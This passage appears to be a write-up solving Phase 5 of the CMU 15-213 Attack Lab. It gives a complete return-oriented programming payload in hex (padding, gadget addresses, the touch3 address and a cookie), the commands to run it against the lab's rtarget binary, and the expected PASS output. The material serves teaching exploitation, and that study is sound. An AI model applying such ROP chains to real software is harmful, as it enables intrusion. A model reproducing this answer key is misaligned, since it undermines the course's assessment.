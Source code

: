 ```

## PHASE 5

create a phase5.txt with the string below.
phase5.txt

```
00 00 00 00 00 00 00 00 // buffer
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
4c 1c 40 00 00 00 00 00
3e 1b 40 00 00 00 00 00
46 1b 40 00 00 00 00 00
48 00 00 00 00 00 00 00 // offset
fc 1b 40 00 00 00 00 00
a7 1b 40 00 00 00 00 00
ac 1b 40 00 00 00 00 00
76 1b 40 00 00 00 00 00
3e 1b 40 00 00 00 00 00
a0 1a 40 00 00 00 00 00	// touch3
31 31 37 66 64 30 36 31 // cookie
```

use the commands below to run it
```
linux> ./hex2raw < phase5.txt > 2018080106.rtarget.l2
linux ./rtarget -q -i 2018080106.rtarget.l2 
```

which should give you output similar to

```
Cookie: 0x117fd061
Touch3!: You called touch3("117fd061")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 4C 1C 40 00 00 00 00 00 3E 1B 40 00 00 00 00 00 46 1B 40 00 00 00 00 00 48 00 00 00 00 00 00 00 FC 1B 40 00 00 00 00 00 A7 1B 40 00 00 00 00 00 AC 1B 40 00 00 00 00 00 76 1B 40 00 00 00 00 00 3E 1B 40 00 00 00 00 00 A0 1A 40 00 00 00 00 00 31 31 37 66 64 30 36 31
```

